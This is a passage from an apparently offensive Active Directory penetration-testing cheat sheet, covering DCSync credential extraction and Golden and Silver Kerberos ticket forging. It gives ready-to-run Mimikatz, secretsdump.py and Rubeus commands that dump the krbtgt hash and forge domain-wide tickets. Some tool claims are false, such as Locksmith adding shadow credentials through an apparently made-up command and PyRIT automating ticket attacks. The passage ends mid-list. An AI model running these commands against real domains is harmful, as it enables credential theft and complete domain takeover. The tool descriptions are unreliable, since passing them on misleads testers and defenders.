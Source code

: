 ### 4.2 DCSync Attack
- **Description**: Exploit accounts with replication rights to extract all AD credentials, including Domain Admin hashes.
- **Techniques**:
  - Identify accounts with `Replicating Directory Changes All` permissions.
  - Use DCSync to replicate AD data, including password hashes.
  - Exploit GenericAll or GenericWrite permissions on sensitive objects.
  - Abuse shadow credentials to add alternate credentials to accounts.
- **Tools**:
  - **Mimikatz**: Performs DCSync attacks.
  - **BloodHound**: Identifies accounts with replication rights.
  - **SecretsDump**: Extracts credentials via DCSync.
  - **Netexec**: Automates DCSync with credentials.
  - **PowerSploit**: Enumerates and exploits AD permissions.
  - **Locksmith**: Detects and exploits shadow credentials.
- **Examples**:
  - Perform a DCSync attack with Mimikatz:
    ```powershell
    lsadump::dcsync /domain:target.com /user:krbtgt
    ```
    - **Explanation**: Extracts the krbtgt hash for Golden Ticket attacks.
  - Use Locksmith for shadow credentials:
    ```powershell
    Invoke-Locksmith -Mode ShadowCredentials -Identity jdoe
    ```
    - **Explanation**: Adds a shadow credential to the `jdoe` account, enabling authentication without the original password.
  - Use SecretsDump for DCSync:
    ```bash
    secretsdump.py target.com/jdoe:Password123!@192.168.1.10 -just-dc-user krbtgt
    ```
    - **Explanation**: Dumps the krbtgt hash, providing full domain control.

## 5. Post-Exploitation
Objective: Maintain access, exfiltrate data, or achieve persistence in the AD environment.

### 5.1 Golden and Silver Ticket Attacks
- **Description**: Forge Kerberos tickets (Golden for TGTs, Silver for specific services) using the krbtgt or service account hashes for persistent access.
- **Techniques**:
  - Extract the krbtgt hash via DCSync for Golden Tickets.
  - Extract service account hashes for Silver Tickets targeting services (e.g., CIFS, HOST).
  - Use forged tickets for domain-wide or service-specific access.
  - Exploit resource-based constrained delegation for targeted access.
- **Tools**:
  - **Mimikatz**: Generates Golden and Silver Tickets.
  - **Rubeus**: Creates tickets from Windows.
  - **Impacket (ticketer.py)**: Forges Kerberos tickets.
  - **PyRIT**: Automates ticket creation and attacks.
  - **rbcd-attack**: Exploits resource-based constrained delegation.
- **Examples**:
  - Create a Golden Ticket with Mimikatz:
    ```powershell
    kerberos::golden /user:Administrator /domain:target.com /sid:S-1-5-21-... /krbtgt:31d6... /id:500
    ```
    - **Explanation**: Forges a TGT for domain-wide access as Administrator.
  - Create a Silver Ticket with Rubeus:
    ```powershell
    Rubeus.exe silver /service:cifs/dc01.target.com /rc4:31d6... /user:jdoe /domain:target.com
    ```
    - **Explanation**: Forges a ticket for the CIFS service on dc01, granting file share access.
  - Use rbcd-attack for delegation:
